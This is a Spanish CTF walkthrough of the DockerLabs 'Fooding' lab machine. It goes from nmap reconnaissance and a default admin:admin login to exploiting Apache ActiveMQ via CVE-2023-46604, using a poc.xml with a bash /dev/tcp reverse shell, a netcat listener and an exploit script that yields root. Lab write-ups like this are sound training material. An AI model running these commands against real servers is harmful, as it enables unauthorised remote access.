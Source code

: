 # Máquina Fooding
Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/0SlG3S7Z#bF91meiTF3k8A9RGhvnqdS-Irm-GnDLYGpUQk1S9_lQ)

- **Nombre de la Máquina:** Fooding
- **Sistema Operativo**: Linux
- **Dificultad:** Medium
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
	- ActiveMQ 5.15.25 exploit

### Reconocimiento
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina víctima para ver que puertos tiene abiertos.
```bash
sudo nmap -n -Pn -sS -p- --min-rate 5000  172.17.0.2 -oN escaneo.txt
PORT      STATE SERVICE     REASON
80/tcp    open  http        syn-ack
443/tcp   open  https       syn-ack
1883/tcp  open  mqtt        syn-ack
5672/tcp  open  amqp        syn-ack
8161/tcp  open  patrol-snmp syn-ack
41031/tcp open  unknown     syn-ack
61613/tcp open  unknown     syn-ack
61614/tcp open  unknown     syn-ack
61616/tcp open  unknown     syn-ack
```

Lanzamos un conjunto de scripts predeterminado con nmap para que nos reporte más información sobre los servicios.
```bash
sudo nmap -sCV -p80,443,1883,5672,8161,41031,61613,61614,61616 172.17.0.2 -oN targeted.txt
________________________________________________
PORT      STATE SERVICE    VERSION
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Apache2 Debian Default Page: It works
443/tcp   open  ssl/http   Apache httpd 2.4.59 ((Debian))
|_http-title: DockerLabs | Plantilla gratuita Bootstrap 4.3.x
|_http-server-header: Apache/2.4.59 (Debian)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
5672/tcp  open  amqp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
41031/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
|_  Potentially risky methods: TRACE
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|_    5.15.15
```

Entramos a la web del puerto 80 y a la del puerto 443 a inspeccionarlas, no encontramos nada interesante. También hemos aplicado Fuzzing sobre ellas pero no he logrado encontrar nada interesante.

Le echamos un vistazo a la web que corre por el puerto 8161
```bash
http://172.17.0.2:8161/index.html
```

Nos pide autenticación, probamos credenciales comunes como pueden ser:

    root:root
    guest:guest
    admin:admin

Logramos acceder con las credenciales admin:admin

En la web encontramos un directorio /admin en uno de los links. Observamos el panel de ActiveMQ, servicio el cual corre por el puerto 61616, como podemos ver en el reporte de nmap.
![Pasted image 20240707131751](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/b81ba295-d605-4ec7-9f3e-aa5872c21f49)


### Explotación
Tras buscar en internet, encontramos un exploit para la versión 5.15.15 -> Exploit En el exploit tenemos que editar el archivo poc.xml para ejecutar el comando que queremos, en este caso la reverse shell.
```xml
<value>bash</value>
<value>-c</value>
<value>bash -i &gt;&amp; /dev/tcp/172.17.0.1/443 0&gt;&amp;1</value>
```

Este recurso lo compartiremos por el puerto 80 con python:
```bash
sudo python3 -m http.server 80
```

Abriremos el puerto 443 para recibir la reverse shell:
```bash
sudo nc -nlvp 443
```

Ejecutaremos el script, que tomará el poc.xml de nuestro servidor de python. Cabe recalcar que no indicamos el puerto ya que el script usa el puerto por defecto de ActiveMQ que es el 61616.
```bash
python3 CVE-2023-46604-RCE.py -i 172.17.0.2 -u http://172.17.0.1/poc.xml
```

Estamos dentro.
```bash
whoami
----------------
root
```
Y como el usuario que corre el servicio que hemos explotado es root, tenemos los privilegios máximos en el sistema.
